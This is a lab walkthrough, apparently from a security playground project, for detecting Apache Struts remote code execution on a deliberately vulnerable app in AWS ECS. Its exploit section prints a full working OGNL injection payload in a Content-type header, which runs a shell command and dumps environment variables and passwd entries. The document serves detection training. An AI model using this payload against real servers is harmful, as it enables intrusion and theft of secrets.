


# Scenario: Detect Apache Struts RCE Vulnerability Exploitation

## Prerequisites

- Vision One connected to your AWS Account
- Playground One ECS Cluster (Any variant)
    - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
# EC2
pgo --apply ecs-ec2

# Fargate
pgo --apply ecs-fg
```

Ensure to have Runtime Security enabled on the Vision One Console for this cluster.

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "pgo-cnc-ecs-ec2"
ecs_ami_ec2 = "ami-00a947e5cc1e6d3d3"
loadbalancer_dns_ec2 = "pgo-cnc-ecs-ec2-30050812.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Run:

```sh
cd ${ONEPATH}/exploits/struts/
./struts-exploit.sh pgo-cnc-ecs-ec2-30050812.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 18.195.245.32:80...
* Connected to playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com (18.195.245.32) port 80 (#0)
> GET /todolist/todolist/ HTTP/1.1
> Host: playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 
< Date: Tue, 01 Aug 2023 12:45:58 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
LD_LIBRARY_PATH=/usr/local/tomcat/native-jni-lib
ECS_CONTAINER_METADATA_URI_V4=http://169.254.170.2/v4/46de0786-9920-42aa-bff4-c17fd4d273c5
CATALINA_HOME=/usr/local/tomcat
LANG=C.UTF-8
HOSTNAME=ip-10-0-175-104.eu-central-1.compute.internal
...
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
messagebus:x:101:101::/var/run/dbus:/bin/false
* transfer closed with outstanding read data remaining
* Closing connection 0
curl: (18) transfer closed with outstanding read data remaining
```

Vision One Observed Attack Techniques:



Container Security Runtime Event:



🎉 Success 🎉
